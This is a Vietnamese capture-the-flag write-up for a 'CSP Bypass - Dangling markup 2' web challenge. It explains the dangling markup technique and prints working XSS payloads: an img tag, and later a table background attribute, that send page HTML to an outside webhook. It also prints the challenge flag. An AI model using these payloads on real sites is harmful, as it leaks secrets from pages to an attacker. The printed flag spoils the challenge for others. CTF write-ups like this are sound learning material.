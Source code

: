 ```diff  
-  Web -  Client Challenges 
```

## 2. CSP Bypass -  Dangling markup 2 [50 Points]

  - Cũng như challenge trên, ta có trang web như sau

    ![2](img/2.jpg)

  - Trang web sẽ hiện thị ra dòng chữ **Welcome** cùng với các ký tự mà ta nhập vào

    ![2-1](img/2-1.jpg)

  - Thử với payload ```Reflect XSS``` đơn giản ta thấy nó bị chặn bởi **Content Security Policy**

    ![2-2](img/2-2.jpg)

  - Kiểm tra CSP của trang ta thấy nó không cho phép thực thi script trong trang (giá trị none nghĩa là nó không fetch dữ liệu script từ bất kỳ nguồn nào hết)

    ![2-3](img/2-3.jpg)

  - Thử kiểm tra độ an toàn của CSP bằng trang web [CSP Evaluator](https://csp-evaluator.withgoogle.com/) ta có kết quả như sau

    ![2-4](img/2-4.jpg)

  - Như hình trên, ta sẽ thấy rằng tất cả các Policy đều an toàn, chỉ có dòng cuối gợi ý cho ta về DOM-Based XSS. Thử payload DOM-Based XSS ta thấy có thể khai thác được

    ![2-5](img/2-5.jpg)

  - Tới đây, dựa vào tiêu đề và gợi ý trên, ta có thể biết rằng đây là DOM-Based XSS dựa vào kỹ thuật *Dangling Markup* . Sau khi search google về kỹ thuật này, ta có thể thấy nó được mô tả chi tiết ở [đây](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) gồm cả khái niệm và cách khai thác.

  - Cụ thể, *Dangling markup* là khi attacker chèn 1 thẻ html vào DOM mà không đóng các attribute của thẻ đó lại, để nó 'treo lủng lẳng' như sau:

    ```html 
    <img src='attacker-server.com/
    ```  

    Khi trình duyệt render phản hồi, nó sẽ duyệt các ký tự tiếp theo của thẻ trên, đến khi gặp dấu single quote (```'```) tiếp theo thì dừng lại, các ký tự vừa được duyệt sẽ trở thành một phần của đường dẫn cho thuộc tính ```src```. Khi giao diện được render, request từ ```src``` được gửi tới server của attacker, họ sẽ đọc được 1 phần nội dung của trang web mà đáng ra họ không thể thấy.

  - Quay lại vấn đề cũ, để thực thi được DOM-Based XSS và gửi request ra ngoài, ta áp dụng **Dangling markup** sử dụng một thẻ html nào đó có thể gửi request tới đường dẫn chỉ định. 

    Ta thử với thẻ ```img``` và thấy rằng nó gửi một request tới webhook của mình kèm theo tham số là chuỗi html đằng sau 
    ```diff
    Payload: </h1> <img src='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?
    ```
    Giải thích payload:
    - Phần </h1> là để bypass thẻ <h1> sẵn có của DOM mà ta inject
    - Thẻ img em áp dụng Dangling Markup, phải sử dụng Single Quote thay vì Double Quote vì ta mong muốn đọc được nội dung đến dấu ' tiếp theo (chỗ icon) chứ không phải dấu " tiếp theo -> Nhằm mục đích đọc được đoạn có chứa Flag
    Kết quả như sau

    ![2-6](img/2-6.jpg)

  - Vào phần ***fill in this form*** và gửi link vulnerable trên đến con bot, khi nó mở đường link thì thẻ ```img``` sẽ tự động gửi request tới webhook của chúng ta, kèm theo chuỗi html đằng sau. Nhờ đó ta có thể thấy được đoạn html chứa flag mà bot thấy được.

  - Tuy nhiên, đợi 10p vẫn không thấy request tới, em đã kiểm tra lại và thấy thuộc tính ```src``` không nhận ký tự xuống dòng 

    ![2-7](img/2-7.jpg)

  - Em đã tìm kiếm xem còn thuộc tính nào tự động gửi request tương tự src không, thì tìm thấy được thuộc tính background trong table

    ![2-8](img/2-8.jpg)

  - Test thử và thấy nó nhận cả các ký tự xuống dòng làm đường dẫn

    ![2-9](img/2-9.jpg)

  - Cuối cùng ta gửi payload lại và nhận được flag như ta tính.

    ![2-10](img/2-10.jpg)



```diff
- Flag: D4NGL1NG_M4RKUP_W1TH_CHR0ME_NO_N3W_LINE
```

